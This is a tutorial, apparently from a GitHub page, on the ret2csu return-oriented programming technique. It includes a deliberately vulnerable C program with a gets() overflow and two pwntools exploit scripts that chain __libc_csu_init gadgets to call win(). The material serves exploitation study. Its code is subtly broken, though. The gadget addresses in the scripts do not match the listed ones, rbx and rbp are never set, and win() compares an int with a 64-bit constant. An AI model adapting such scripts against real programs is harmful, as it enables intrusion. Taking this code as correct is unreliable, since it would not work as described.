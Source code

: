 # ret2csu: Controlling Registers When Gadgets are Lacking

## Overview

The `ret2csu` (Return-to-CSU) technique is used to populate registers when there is a lack of convenient gadgets, particularly in binaries that are dynamically compiled and linked to libc. This technique exploits specific function chains, like those found in `__libc_csu_init`, which can be leveraged to manipulate registers, even when direct gadgets are absent.

### The Concept

When a binary is dynamically compiled with libc linked to it, certain functions and initialization routines contain "gadgets" that can be used to control registers. The function `__libc_csu_init` contains a series of gadgets that can be exploited to populate registers, especially the critical ones required for syscalls like `execve()` or `write()`.

Key gadgets in the `__libc_csu_init` function include:

- `pop rbx`, `pop rbp`, `pop r12`, `pop r13`, `pop r14`, `pop r15`, `ret`
- Instructions like `mov rdx, r14`, `mov rsi, r13`, and `mov edi, r12d`
- The call to `qword [r15 + rbx*8]`, which makes it possible to control where the program jumps by setting `r15` and `rbx`.

By using `ret2csu`, we can chain these operations together, even when gadgets for individual registers (like `rdx` and `rsi`) are missing. 

### The `ret2csu` Workflow

1. **Find Gadgets**: Identify `pop` gadgets and function chains within `__libc_csu_init` that allow you to control the registers needed for the syscall or function call you want to exploit.

2. **Populate Registers**: Use the gadgets to populate registers like `rdx`, `rsi`, and `rdi`. For example, `mov rdx, r14` and `mov rsi, r13` allow us to control values directly.

3. **Execute Function Calls**: Use the `call qword [r15 + rbx*8]` instruction to jump to the function you want to exploit (e.g., `win()` or `execve()`) by controlling `r15` and `rbx`.

4. **Trigger Exploit**: By executing a chain of operations, you can trigger syscalls like `execve()` for spawning a shell or call functions like `write()` with the required arguments.

## Exploitation Example

### Binary Overview

Consider the following vulnerable binary with a `win()` function and `gets()` vulnerable to buffer overflow:

```c
#include <stdio.h>

int win(int x, int y, int z) {
    if (z == 0xdeadbeefcafed00d) {
        puts("Awesome work!");
    }
}

int main() {
    puts("Come on then, ret2csu me");

    char input[30];
    gets(input);
    return 0;
}
```

In this example, we aim to use `ret2csu` to control registers and call the `win()` function with the correct parameters.

### Step 1: Finding Gadgets

The necessary gadgets and instructions are found in the `__libc_csu_init` function, which contains chains for controlling registers. The key gadgets are:

```
0x004011a2 pop rbx
0x004011a3 pop rbp
0x004011a4 pop r12
0x004011a6 pop r13
0x004011a8 pop r14
0x004011aa pop r15
0x004011ac ret
```

These gadgets allow us to populate `r12`, `r13`, `r14`, and `r15`, which are crucial for controlling the registers used in system calls.

### Step 2: Crafting the Payload

To exploit this, we need to populate the registers in a specific order. Here's how you can do it using Pwntools:

```python
from pwn import *

# Initialize the binary and process
elf = context.binary = ELF('./vuln')
p = process()

# Gadgets and memory locations
POP_CHAIN = 0x00401224  # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028  # Writable location for win() address

# Create the ROP chain
rop = ROP(elf)
rop.raw('A' * 40)  # Buffer overflow to reach the return address
rop.gets(RW_LOC)  # Write win() address to RW_LOC

rop.raw(POP_CHAIN)  # Pop registers
rop.raw(0)          # r12
rop.raw(0)          # r13
rop.raw(0xdeadbeefcafed00d)  # r14 (passed into rdx)
rop.raw(RW_LOC)     # r15 - points to win()
rop.raw(REG_CALL)   # Call the function at the address in r15

# Send the payload
p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))  # Send win() address to gets()
print(p.recvline())  # Should print "Awesome work!"
```

### Step 3: Final Exploit

After the payload is crafted, it sends the address of `win()` to the buffer. By using `ret2csu`, we populate `r12`, `r13`, `r14`, and `r15` with the necessary values to eventually call `win()` through `gets()`:

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401228  # pop r14, pop r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028  # Writable memory location for win() address

rop = ROP(elf)
rop.raw('A' * 40)  # Overflow the buffer
rop.gets(RW_LOC)  # Write win() address to RW_LOC

rop.raw(POP_CHAIN)  # Pop r14, r15
rop.raw(0xdeadbeefcafed00d)  # r14 into rdx
rop.raw(RW_LOC)  # r15 points to win() function address
rop.raw(REG_CALL)  # Execute the call to win()

p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))  # Write the address of win() to gets()
print(p.recvline())  # Output: "Awesome work!"
```
